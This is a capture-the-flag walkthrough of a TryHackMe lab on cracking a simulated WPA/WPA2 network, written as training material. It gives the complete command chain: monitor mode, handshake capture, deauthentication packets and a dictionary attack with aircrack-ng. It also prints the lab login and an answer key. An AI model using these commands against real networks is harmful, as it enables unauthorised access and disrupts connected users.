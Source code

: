 # 🎄 TryHackMe Advent of Cyber 2024 – Day 11: Wi-Fi Attacks

## Objectives 🎯

Day 11 provides an in-depth exploration of Wi-Fi security and a hands-on demonstration of WPA/WPA2 cracking. This exercise highlights the vulnerabilities in wireless networks and the importance of strong security practices.

### Goals:
1. Learn about Wi-Fi and its critical role in organizations.
2. Understand various Wi-Fi attack techniques.
3. Perform a WPA/WPA2 cracking attack to capture a 4-way handshake and decrypt the Wi-Fi password (PSK).

## Steps 🚀

### Step 1: Preparing the Environment
1. **Start Machines**:  
   - Press the **Start Machine** button to initialize the target machine.  
   - Press the **Start AttackBox** button to set up the AttackBox environment.
2. **SSH into the Target Machine**:  
   Use the credentials provided:
   ```
   ssh glitch@MACHINE_IP
   Password: Password321
   ```

### Step 2: Analyzing Wireless Interfaces
1. **Check Wireless Device Information**:  
   Run `iw dev` to identify available wireless interfaces.  
   - **BSSID of our wireless interface**: `02:00:00:00:02:00`.
2. **Scan for Nearby Networks**:  
   Execute `sudo iw dev wlan2 scan` to list available Wi-Fi networks.  
   - **SSID and BSSID of the access point**: `MalwareM_AP, 02:00:00:00:00:00`.

### Step 3: Setting Monitor Mode
1. **Switch to Monitor Mode**:  
   ```
   sudo ip link set dev wlan2 down
   sudo iw dev wlan2 set type monitor
   sudo ip link set dev wlan2 up
   ```
2. **Confirm Monitor Mode**:  
   Use `sudo iw dev wlan2 info` to verify the interface is now in monitor mode.

### Step 4: Open a Second SSH Terminal
1. **Establish a Second SSH Session**:  
   Open another terminal to create a second SSH session into the target machine. This allows you to monitor Wi-Fi traffic in one session while executing attacks in the other.

2. **Capture Wi-Fi Traffic**:  
   On the first terminal, run `sudo airodump-ng wlan2` to display nearby networks and gather details such as signal strength, channel, and encryption type.  
   - **Focus on the target network**: `MalwareM_AP`.

3. **Target the Access Point**:  
   Run `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2` to capture the 4-way handshake. Let this command run as you proceed.

### Step 5: Launch a Deauthentication Attack
1. **Identify Connected Clients**:  
   When a client connected to `MalwareM_AP` is detected, its **BSSID** will appear in the STATION section.  
   - **BSSID of the connected client**: `02:00:00:00:01:00`.

2. **Send Deauthentication Packets**:  
   Use `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2` to disconnect the client and force a handshake.  
   - The captured handshake will appear in the output:  
     **`WPA handshake: 02:00:00:00:00:00`**.

### Step 6: Crack the WPA/WPA2 PSK
1. **Use Aircrack-ng**:  
   Perform a dictionary attack on the captured handshake:
   ```
   sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
   ```
2. **Decrypted PSK**:  
   - **Password (PSK)**: `fluffy/champ24`.

### Step 7: Connect to the Wi-Fi Network
1. **Generate a Configuration File**:  
   ```
   wpa_passphrase MalwareM_AP 'fluffy/champ24' > config
   ```
2. **Join the Network**:  
   ```
   sudo wpa_supplicant -B -c config -i wlan2
   ```
3. **Verify Connection**:  
   Use `iw dev` to confirm the wireless interface is connected to `MalwareM_AP`.

## Key Findings 🔑

1. **Weak Passwords**:  
   A simple password (`fluffy/champ24`) allowed the network to be cracked quickly, emphasizing the need for strong, complex passphrases.
2. **4-Way Handshake Vulnerability**:  
   WPA/WPA2 handshake data can be exploited for offline attacks, highlighting the importance of secure configurations.
3. **Monitor Mode**:  
   Demonstrates the value of specialized tools for passive network analysis and security auditing.

## Lessons Learned 🌟

### Wi-Fi Security Insights:
- **Secure Passphrases**: Always use strong, complex passwords for Wi-Fi networks.
- **Monitor Mode**: Essential for analyzing network traffic and capturing handshake data.
- **Deauthentication Attacks**: Highlight the vulnerabilities in wireless protocols and the need for additional security layers.

### Tools and Techniques 🛠️
1. **`iw` and `airodump-ng`**: Analyze and monitor wireless networks.
2. **`aireplay-ng`**: Perform deauthentication attacks.
3. **`aircrack-ng`**: Conduct dictionary attacks to crack WPA/WPA2 passwords.

## Final Thoughts 🎁

This challenge reinforces the importance of robust wireless security practices. Organizations should regularly audit their networks, enforce strong password policies, and monitor for rogue access points to protect against unauthorized access.

### Answers ✅
1. **What is the BSSID of our wireless interface?**  
   **Answer**: `02:00:00:00:02:00`

2. **What is the SSID and BSSID of the access point?**  
   **Answer**: `MalwareM_AP, 02:00:00:00:00:00`

3. **What is the BSSID of the wireless interface that is already connected to the access point?**  
   **Answer**: `02:00:00:00:01:00`

4. **What is the PSK after performing the WPA cracking attack?**  
   **Answer**: `fluffy/champ24`

5. **If you enjoyed this task, feel free to check out the Networking module.**  
   **Answer**: No answer needed.

## Table of Contents 📚

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE](day5.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Sandboxes](day7.md)
- [Day 8: Shellcodes](day8.md)
- [Day 9: Risk Assessment](day9.md)
- [Day 10: Phishing](day_10.md)
- **Day 11: Wi-Fi Attacks**
- [Day 12: Web Timing Attacks](day_12.md)
- [Day 13: WebSockets](day_13.md)
- [Day 14: Certificate Mismanagement](day_14.md)
- [Day 15: Active Directory](day_15.md)
- [Day 16: Azure Exploitation](day_16.md)
- [Day 17: Log Analysis](day_17.md)
- [Day 18: Prompt Injection](day_18.md)
- [More Days to Come!](#)
